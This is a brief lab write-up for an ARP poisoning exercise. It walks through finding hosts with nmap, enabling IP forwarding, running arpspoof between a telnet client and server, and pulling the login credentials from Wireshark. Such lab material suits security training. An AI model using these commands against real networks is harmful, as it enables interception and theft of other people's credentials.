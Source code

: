 # ARP posioning
In this lab environment, the user is going to get access to a Kali GUI instance. There is a telnet server and a client machine on the same network and the client machine authenticates with the telnet server, every 30 seconds. Attacks can be performed on both machines by using the tools installed on the Kali instance.

Objective: Identify the telnet server and client machine, steal the telnet login credentials by performing an ARP poisoning attack, and log in to the server.

## Find the IP
1. $ip addr and look at eth1: 10.100.13.140/24
2. nmap the eth: $nmap 10.10.13.0
![nmap](nmap.png)
The first machine is gateway, second is telnet, third is client machine and the last is kali machine.

## Configure kali to foward IP packets
used: echo 1 > /proc/sys/net/ipv4/ip_forward

## Perfoming ARP poision attack
used: arpspoof -i eth1 -t 10.100.13.37 -r 10.100.13.36
![sniffing](sniffing.png)

## Wireshark
Open wireshark with eth1, then apply telnet filter. After that follow the TCP stream.
![wireshark](wireshark.png)
Username: admin
password: MyS3cr3tP455

## Connect to telnet
Used the credentials to connect
![telnet](telnet.png)
